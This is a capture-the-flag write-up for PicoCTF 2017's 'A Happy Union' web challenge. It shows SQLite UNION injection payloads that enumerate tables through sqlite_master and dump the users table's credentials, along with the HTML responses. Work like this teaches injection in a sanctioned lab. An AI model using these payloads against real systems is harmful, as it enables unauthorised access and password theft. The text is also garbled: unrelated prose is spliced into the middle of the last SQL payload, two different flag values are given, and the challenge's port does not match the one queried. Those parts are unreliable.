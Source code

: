 # PicoCTF_2017: A Happy Union

**Category:** Web Exploitation
**Points:** 110
**Description:**

>I really need access to [website](http://shell2017.picoctf.com:23598/), but I forgot my password and there is no reset. Can you help? I like lite sql :)

**Hint:**

>A SQL union allows a single query to select values from multiples tables.

## Write-up

I really need access to website, but I forgot my password and there is no reset. Can you help? I like lite sql :)

```html
w3ndige@W3ndige ~> curl http://shell2017.picoctf.com:41558/
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Top Notch Forum</title>
    <link href="/static/css/bootstrap.min.css" rel="stylesheet">
    <link href="/static/css/style.css" rel="stylesheet">  
  </head>
    <body>
        <div class="container">
          <div class="row">
            <div class="text-center">
                <h1> Welcome to the Super Poster Forum! </h1>
            </div>
        </div>
        <div class="row">
            <br />
            <br />
            <br />
            <br />
        </div>
        <div class="row">
            <div class="col-md-12 text-center">
                <a href="/login" class="btn btn-primary btn-md" role="button">Login</a>
                <a href="/register" class="btn btn-primary btn-md" role="button">Register</a>
            </div>
        </div>
      </div>
        <script src="/static/js/bootstrap.min.js"></script>
        <script src="/static/js/jquery.min.js"></script>
        <script type="text/javascript" src="/static/js/client.js"></script>

    </body>
</html>⏎         
```

A happy union? It has to do something with  **union sql injection**. Let's firstly check, how bad can we go when registering a new user.

```html
username: ' OR 1 = 1
password: asd
```

Now, after logging in, we can clearly see the SQL query which is used to take out the data from the database. And yeah, our input isn't sanitized at all, so we're clear to create  **UNION**  injection.

```sql
select id, user, post from posts where user = '' OR 1 = 1';
```

Our first step would be creating a query that will tell us names of the tables in the database. Since we know it's  **sqlite**  it won't be that hard.

```sql
' union SELECT null, null, name FROM sqlite_master;--
```

We have to use 2  **null**  columns, since the base query is taking out content of 3 columns, and so we have to in the union query. Dashes in the end will comment out everything afer them, just in case.

```html
<div class="row">
     <div class="text-center">
         <h1> Welcome &#39; union SELECT null, null, name FROM sqlite_master;-- to the Super Poster Forum! </h1>
     </div>
 </div>

 <div class="row">
     <div class="text-center">
         <h3> The current posts are:</h3>
     </div>
 </div>
 <div class="row">
     <table class="table">
         <thead>
         <tr>
             <th>Post ID</th>
             <th>User</th>
             <th>Value</th>
         </tr>
         </thead>
         </tbody>
                 <tr><td>None </td><td> None</td> <td> posts</td></tr>

                 <tr><td>None </td><td> None</td> <td> sqlite_sequence</td></tr>

                 <tr><td>None </td><td> None</td> <td> users</td></tr>
         </tbody>
     </table>
 </div>
```

Great, we have  **users**  table, from which we can now try to get the flag. Here we go with the last query.

```sql
' union SELECTSQLite injection tested here. Create a account with username `' or user like '' UNION SELECT '1', user, pass, null FROM users; --
```

User, pass column names? Let's check that out.

```html
<div class="row">
    <div class="text-center">
        <h1> Welcome &#39; union SELECT user, pass, null FROM users;-- to the Super Poster Forum! </h1>
    </div>
</div>
<div class="row">
    <div class="text-center">
        <h3> The current posts are:</h3>
    </div>
</div>
<div class="row">
    <table class="table">
        <thead>
        <tr>
            <th>Post ID</th>
            <th>User</th>
            <th>Value</th>
        </tr>
        </thead>
        </tbody>
                <tr><td>&#39; union SELECT user, pass, null FROM users;-- </td><td> asd</td> <td> None</td></tr>

                <tr><td>admin </td><td> flag{union?_why_not_onion_b80f530ed953ccdd0dfc6f2456dc7d0e6e6a3cd8e3f1fe5f6109d1618bddbd1}</td> <td> None</td></tr>
        </tbody>
    </table>
</div>
```

Great SQL Injection challenge!`, password not important.

Therefore, the flag is `flag{union?_why_not_onion_a69464d4869c743e26c08df8686e4003}`.
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTMwNzk0MjMzLDY3MzUyNTEzM119
-->
